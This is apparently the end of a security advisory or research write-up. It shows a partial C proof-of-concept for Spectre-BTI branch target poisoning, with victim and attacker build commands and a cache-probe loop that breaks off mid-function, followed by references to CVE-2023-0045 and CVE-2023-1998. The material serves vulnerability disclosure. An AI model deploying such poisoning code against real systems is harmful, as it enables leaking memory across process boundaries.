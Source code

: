 ```prctl(PR_SET_SPECULATION_CTRL, PR_SPEC_INDIRECT_BRANCH, PR_SPEC_DISABLE, 0, 0);```
gcc -o victim-IBRS test.c -O0 -masm=intel -w 	-DVICTIM  -DMSR  -DMSR_VAL=1
gcc -o victim-STIBP test.c -O0 -masm=intel -w 	-DVICTIM  -DMSR  -DMSR_VAL=2
gcc -o victim-IBPB test.c -O0 -masm=intel -w 	-DVICTIM  -DMSR  -DMSR_VAL=0 -DIBPB
gcc -o attacker test.c -O0 -masm=intel -w  
*/

#include "utils.h"
#include <stdio.h>
#include <string.h>
#include <sys/prctl.h>
#ifndef PRINT_AMMOUNT
#define PRINT_AMMOUNT 1000
#endif
#define IA32_SPEC_CTRL 72

uint8_t *rdiPtr;
uint8_t unused[0x500];
uint8_t probeArray[0x1000] = {2};
uint8_t unuse2[0x500];

uint32_t f1() {}


int poison(uint8_t *srcAddress, uint8_t *dstAddress, uint64_t cpu)
{
    volatile uint8_t d;
    unsigned tries = 0;
    unsigned hits = 0;
    unsigned totalHits = 0;
    unsigned totalTries = 0;

    jitForLoop(srcAddress);
    while (1)
    {

#ifndef VICTIM
        callGadget(srcAddress, (uint8_t *)&rdiPtr, (uint8_t *)probeArray);
        continue;
#else


#ifdef IBPB
        wrmsr_on_cpu(73, cpu, 1);
#endif

        for (int i = 0; i < 100; i++)
        {
            d = *dstAddress;
            flush((uint8_t *)&rdiPtr);
            callGadget(srcAddress, (uint8_t *)&rdiPtr, (uint8_t *)probeArray);
        }


        if (probe(&probeArray[0]) < THRESHOLD)
        {
            hits++;
            totalHits++;
        }


        totalTries++;
        if (++tries % PRINT_AMMOUNT == 0)
        {
```

[^1]: “Branch Target Injection". Link: [https://www.intel.com/content/www/us/en/developer/articles/technical/software-security-guidance/advisory-guidance/branch-target-injection.html)
[^2]: “The Linux kernel user-space API guide: Speculation Control”.  Link: [https://docs.kernel.org/userspace-api/spec_ctrl.html](https://docs.kernel.org/userspace-api/spec_ctrl.html) 
[^3]: “Exec ASLR: Abusing Intel Branch Predictors to bypass ASLR”. Link: [https://github.com/es0j/ExecASLR-ekoparty](https://github.com/es0j/ExecASLR-ekoparty)
[^4]: “Reverse Branch Target Buffer Poisoning”.  Link: [https://cos.ufrj.br/uploadfile/publicacao/3061.pdf](https://cos.ufrj.br/uploadfile/publicacao/3061.pdf) 
[^5]: "RET2ASLR - Leaking ASLR from return instructions" Link:
[^6]: "Speculative Execution Side Channel Mitigations" Link:
[^7]: “The Linux kernel user-space API guide: Speculation Control”.  Link:[https://www.kernel.org/doc/html/latest/userspace-api/spec_ctrl.html](https://www.kernel.org/doc/html/latest/userspace-api/spec_ctrl.html)
[^8]: "Spectre Meltdown Checker" Link:
[^9]: "Intel® 64 and IA-32 Architectures Software Developer’s Manual Volume 4: Model-Specific Registers" Link:
[^10]: "Linux Source code" Link:
[^11]: "Seccomp" Link:
[^12]: "Linux Source code" Link:
[^13]: "AMD64 Architecture Programmer’s Manual Volume 2:" Link:[https://www.amd.com/system/files/TechDocs/24593.pdf](https://www.amd.com/system/files/TechDocs/24593.pdf)
[^14]: “Speculative Execution Side Channel Mitigations”. Link:[https://www.intel.com/content/dam/develop/external/us/en/documents/336996-speculative-execution-side-channel-mitigations.pdf](https://www.intel.com/content/dam/develop/external/us/en/documents/336996-speculative-execution-side-channel-mitigations.pdf)
[^15]: “CVE 2023-0045 Bypassing Spectre-BTI User Space Mitigations”. Link:[https://github.com/google/security-research/security/advisories/GHSA-9x5g-vmxf-4qj8](https://github.com/google/security-research/security/advisories/GHSA-9x5g-vmxf-4qj8)
[^16]: “CVE 2023-1998 Spectre v2 SMT mitigations problem”. Link:[https://github.com/google/security-research/security/advisories/GHSA-mj4w-6495-6crx](https://github.com/google/security-research/security/advisories/GHSA-mj4w-6495-6crx)